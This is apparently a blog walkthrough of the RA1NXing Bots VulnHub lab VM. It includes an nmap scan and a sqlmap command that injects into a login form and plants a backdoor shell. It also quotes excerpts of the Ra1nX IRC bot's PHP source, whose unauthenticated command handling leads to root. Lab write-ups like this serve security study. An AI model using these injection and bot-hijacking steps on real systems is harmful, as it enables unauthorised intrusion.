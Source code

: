 ```yaml
---
categories:
- vulnhub
- walkthrough
- ra1nxing
comments: false
date: "2013-07-10T22:31:29Z"
title: solving RA1NXing Bots
---
```


[RA1NXing Bots](http://vulnhub.com/entry/ra1nxing-bots_1,52/) is a vulnerable image intended to jump start security researches' interest in botnets and their exploitability.  This vulnerable image was brought to us by Brian Wallace ([@botnet_hunter](https://twitter.com/botnet_hunter)), a botnet security researcher at Cylance and good friend (and Ballast Security co-founder).  This was a pretty interesting  vulnerable image, and good exposure into the sometimes seedy and malevolent world of botnets.

As such, the iconic nmap:

```
# Nmap 6.25 scan initiated Mon Jul  8 02:08:29 2013 as: nmap -sS -A -T5 -p- -oN bot.scan 192.168.1.198
Nmap scan report for 192.168.1.198
Host is up (0.00044s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.5p1 Debian 6+squeeze3 (protocol 2.0)
| ssh-hostkey: 1024 a2:24:9c:39:48:84:7f:da:1f:51:b9:0a:1b:45:df:aa (DSA)
|_2048 35:f5:0e:fa:c3:6b:98:8a:25:e1:f8:bf:de:38:82:03 (RSA)
80/tcp   open  http    Apache httpd 2.2.16 ((Debian))
|_http-methods: No Allow or Public header in OPTIONS response (status code 302)
| http-title: Site doesn't have a title (text/html).
|_Requested resource was /index.php?page=main
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|_  100000  2,3,4        111/udp  rpcbind
6667/tcp open  irc     IRCnet ircd
| irc-info: Server: irc.localhost
| Version: 2.11.2p2. irc.localhost 000A
| Lservers/Lusers: 0/3
| Uptime: 0 days, 0:10:37
| Source host: 192.168.1.147
|_Source ident: NONE or BLOCKED
MAC Address: 08:00:27:4B:51:94 (Cadmus Computer Systems)
Aggressive OS guesses: Linux 2.6.31 (98%), Linux 2.6.32 - 2.6.35 (97%), Linux 2.6.32 - 3.6 (96%), Netgear DG834G WAP or Western Digital WD TV media player (96%), Linux 2.6.17 - 2.6.36 (96%), Linux 2.6.23 - 2.6.38 (95%), Linux 2.6.22 (95%), Linux 2.6.18 - 2.6.21 (95%), AXIS 210A or 211 Network Camera (Linux 2.6) (95%), Linux 2.6.18 - 2.6.32 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: irc.localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms 192.168.1.198

OS and Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
# Nmap done at Mon Jul  8 02:08:52 2013 -- 1 IP address (1 host up) scanned in 23.34 seconds
```

The two services of interest are the HTTP server and IRC.  The web server comprises a few links with some incredibly basic pages, one of which is an obvious front door at first glance:

{{< figure class="center" src="http://4.bp.blogspot.com/-5SaQmKH03_w/Ud4LthG_-AI/AAAAAAAAAgk/QzjHS8CoXNw/s640/login.jpg" >}}

Grabbing the request and handing it off to sqlmap, we quickly have a shell:

```
root@jali:~/lib_mysqludf_sys-master# sqlmap -u http://192.168.1.198/index.php?page=login --data 'user=blah&password=blah' -p user --os-shell
[....]
[20:33:03] [INFO] the file stager has been successfully uploaded on '/var/www' - http://192.168.1.198:80/tmpufqvr.php
[20:33:03] [INFO] the backdoor has been successfully uploaded on '/var/www' - http://192.168.1.198:80/tmpbqsug.php
[20:33:03] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] a
command standard output:    'www-data'
os-shell> 
```

Dumping out the kernel and listening services doesn't give us anything new.  A local mysql database was set up, and the root password was found in `/var/www/main.php`, but we can't UDF into it due to file restrictions.  Inside the web root is source for the web site, as well as a `/var/www/botsources`, which includes the source code for the Ra1nX bot.  This source will come in handy as we explore the system more thoroughly.

At the head of the bot we've got a bunch of parameters defined; including its connection location and port:

```
$servers        = "127.0.0.1";
$ports            = "6667";
$admins            = "";
$channels        = "#somechannel";
$realnames         = "jhl";
$nicknames         = "jhl1,jhl2,jhl3,jhl4,jhl5,jhl6,jhl7,jhl8,jhl9,jhl10,jhl11,jhl12,jhl13,jhl14,jhl15,jhl16,jhl17,jhl18,jhl19,jhl20,jhl21,jhl22,jhl23,jhl24,jhl25,jhl26,jhl27,jhl28,jhl29,jhl30";
$chanpass     = "trolol";
```

If we attempt to connect to the IRC server and join the channel, we get `Cannot join to channel #somechannel (Bad channel key)`, which is the result of an incorrect password.  The source code specifies a password, but it doesn't work.  Could the bot be changed?

{{< figure class="center" src="http://3.bp.blogspot.com/-lR4idXiox9w/Ud4PQAVFmLI/AAAAAAAAAg0/GLEUZx8R9xE/s640/bot_root.jpg" >}}

Looks like some PHP script is being run as root; likely our culprit.  The issue now is communicating with the bot and somehow exploiting it to give us a root shell.  Time to hit that source we grabbed.

As given above, we have a list of nicknames, a channel, server, and password.  The password doesn't work, so we need to figure out another way.  The bot connects to the server using the connection() function, and selects a random nickname/server/port:

```
   while(!$SOCKET && ($try <= $maxtryconn)){
        $server = random($servers);
        $port     = random($ports);
        $SOCKET = fsockopen($server,$port,$err_num,$err_msg,30);
        $GLOBALS['SOCKET']=$SOCKET;
        $try++;
        sleep(1);
    }
    if(!$SOCKET) die("Cannot connect to remote host");
    if ($SOCKET){
        $GLOBALS['ident']     = $ident    = random($nicknames);
        $GLOBALS['nick']     = $nick     = random($nicknames);
        $GLOBALS['realname']= $realname    = random($realnames);
        SEND("USER XRay 127.0.0.1 localhost : -==Ra1NX Projection==-");
        NICK($nick);
        print "Connected to ".$server.":".$port." ".$nick." (XRay@".gethostbyname($_SERVER["HTTP_HOST"]).") Ra1NX Projection\r\n";
        flush();sleep(1);
    }
```

Once connected to a server, it begins listening for commands.  Text is read off the socket and sent to the `parser` function, which then, obviously, parses and acts upon the input.  The interesting bit to us is the following snippet:

```
  if(substr($line[3],1,strlen($line[3]))==$nick){ $pubcalled = true; }
    if($pubcalled){
        if ($typeMsg=="PRIVMSG" && $user && $pubcalled && $pubcmd) {
            if(function_exists($pubcmd)){
                $sender = "PRIVMSG ".$dropMsg." "._;
                $GLOBALS['sender'] = $sender;
                $arg = str_replace("\r","",$arg);
                $arg = str_replace("\n","",$arg);
                $pubcmd($arg);
            }
        }
    }
```

Essentially, once parsed, a valid command to the bot appears `bot nick | @command | arguments`
It's also of interest that none of this code verifies the authenticity of the request, nor that it's even coming from a channel.  All we need to do, then, is log into the IRC server and iterate through all available nicknames until we find the connected bot.

{{< figure class="center" src="http://2.bp.blogspot.com/-mTV_DW3zLVk/Ud4Uu8woPnI/AAAAAAAAAhE/yb2drFOGxp0/s640/r00t.jpg" >}}

Game over.  Fun image, and looking forward to future botnet scenarios.
